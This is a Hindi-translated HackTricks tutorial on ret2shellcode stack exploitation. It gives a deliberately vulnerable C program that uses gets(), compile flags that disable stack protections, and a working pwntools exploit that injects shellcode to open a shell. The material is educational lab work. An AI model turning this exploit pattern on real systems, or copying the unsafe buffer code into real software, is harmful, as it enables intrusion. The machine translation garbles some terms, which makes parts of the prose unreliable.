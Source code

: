 # Ret2Shellcode

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह **The PEASS Family** की खोज करें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## मूल जानकारी

**Ret2shellcode** एक तकनीक है जो बाइनरी उत्पीड़न में उपयोग की जाती है जहां हमलावता एक वंशावली कार्यक्रम की स्टैक में शेलकोड लिखता है और फिर **इंस्ट्रक्शन पॉइंटर (IP)** या **विस्तारित इंस्ट्रक्शन पॉइंटर (EIP)** को इस शेलकोड के स्थान पर पॉइंट करने के लिए संशोधित करता है, जिससे यह निषेधाज्ञा प्राप्त करने या लक्षित प्रणाली पर अनधिकृत पहुंचने के लिए प्रयोग किया जाता है। यह एक क्लासिक विधि है जो एक लक्षित प्रणाली पर अनधिकृत पहुंचने या विचित्र आदेशों को क्रियान्वित करने के लिए उपयोग की जाती है। यहां प्रक्रिया का विवरण है, जिसमें एक सरल सी उदाहरण और आपको दिखाया गया है कि आप किस प्रकार से **pwntools** का उपयोग करके पायथन का उपयुक्त शोध लिख सकते हैं।

### सी उदाहरण: एक वंशावली कार्यक्रम

चलो एक वंशावली सी कार्यक्रम का एक सरल उदाहरण से शुरू करते हैं:
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
char buffer[64];
gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
vulnerable_function();
printf("Returned safely\n");
return 0;
}
```
यह प्रोग्राम `gets()` फ़ंक्शन का उपयोग करने के कारण एक बफर ओवरफ़्लो के लिए वंर्नरबल है।

### Compilation

इस प्रोग्राम को कंपाइल करने के लिए विभिन्न सुरक्षा सुरक्षा को अक्षम करते हुए (एक वंर्नरबल वातावरण का अनुकरण करने के लिए), आप निम्नलिखित कमांड का उपयोग कर सकते हैं:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-fno-stack-protector`: स्टैक सुरक्षा को अक्षम करता है।
* `-z execstack`: स्टैक को क्रियाशील बनाता है, जो स्टैक पर संग्रहीत शेलकोड को निष्पादित करने के लिए आवश्यक है।
* `-no-pie`: पोजीशन इंडिपेंडेंट एक्जीक्यूटेबल को अक्षम करता है, जिससे हमारे शेलकोड का स्थान जिसमें होगा उसकी स्मृति पता लगाना आसान हो जाता है।
* `-m32`: कार्यक्रम को 32-बिट एक्जीक्यूटेबल के रूप में कंपाइल करता है, अक्सर उत्पीडन विकास में सरलता के लिए प्रयोग किया जाता है।

### Pwntools का उपयोग करके Python Exploit

यहाँ एक उदाहरण है कि आप **pwntools** का उपयोग करके Python में एक उत्पीडन लिख सकते हैं जो एक **ret2shellcode** हमला करने के लिए है:
```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```
यह स्क्रिप्ट एक **NOP स्लाइड**, **शेलकोड**, और फिर **EIP** को नया अड्रेस देकर पुनः लिखता है जिससे शेलकोड को निष्पादित किया जाता है।

**NOP स्लाइड** (`asm('nop')`) का उपयोग किया जाता है ताकि निष्पादन का अवश्यता के बावजूद हमारे शेलकोड में "स्लाइड" हो सके। `p32()` तर्क को अपने बफर के प्रारंभिक पते पर एक ओफ़्सेट के साथ समायोजित करें ताकि NOP स्लाइड में लैंड हो सके।

## सुरक्षा

* [**ASLR**](../common-binary-protections/aslr.md) को निष्क्रिय कर देना चाहिए ताकि पता स्थिर रहे कि क्रियान्वयन के लिए पता सभी क्रियान्वयनों के बीच स्थिर रहे या फ़ंक्शन को स्थानित किया जाएगा वहाँ हमेशा समान नहीं होगा और आपको कुछ लीक की आवश्यकता होगी ताकि पता चले कि जीत फ़ंक्शन को कहाँ लोड किया गया है।
* [**स्टैक कैनेरीज़**](../common-binary-protections/stack-canaries.md) भी निष्क्रिय कर देना चाहिए अन्यथा क्षतिग्रस्त EIP वापसी पता कभी भी अनुसरण नहीं किया जाएगा।
* [**NX**](../common-binary-protections/no-exec-nx.md) **स्टैक** सुरक्षा शेलकोड का निष्पादन स्टैक के अंदर रोकेगी क्योंकि उस क्षेत्र को क्रियात्मक नहीं किया जाएगा।

## अन्य उदाहरण

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
